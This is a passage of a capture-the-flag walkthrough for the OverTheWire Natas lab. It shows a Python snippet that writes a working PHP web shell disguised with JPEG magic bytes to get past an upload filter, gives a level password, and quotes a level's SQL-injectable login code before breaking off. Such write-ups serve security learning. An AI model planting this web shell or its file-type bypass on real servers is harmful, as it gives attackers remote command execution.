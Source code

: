 I used hexdump for VSCode [https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump](https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump)

```text
Offset:   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F     
00000000: FF D8 FF DB 3C 21 2D 2D 20 42 79 20 6A 75 73 74    .X.[<!--.By.just
00000010: 69 6E 2D 70 20 28 68 74 74 70 73 3A 2F 2F 72 61    in-p.(https://ra
```

Python could also be used to add the magic bytes.

```python
fh = open('p_shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<?php if (empty($_POST[\'cmd\'])) {$cmd = "";} elseif (!empty($_POST[\'cmd\'])) {$cmd = shell_exec($_POST[\'cmd\']);} ?><form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST[\'cmd\'])) {htmlspecialchars($_POST[\'cmd\'], ENT_QUOTES, \'UTF-8\');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form><?php if (!$cmd && $_SERVER[\'REQUEST_METHOD\'] != \'POST\'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, \'UTF-8\') ?></pre> <?php elseif (!$cmd && $_SERVER[\'REQUEST_METHOD\'] == \'POST\'): ?><small>No results.</small> <?php endif; ?>')
fh.close()
```

Upload the file and cat the password file  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## Natas 14

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
```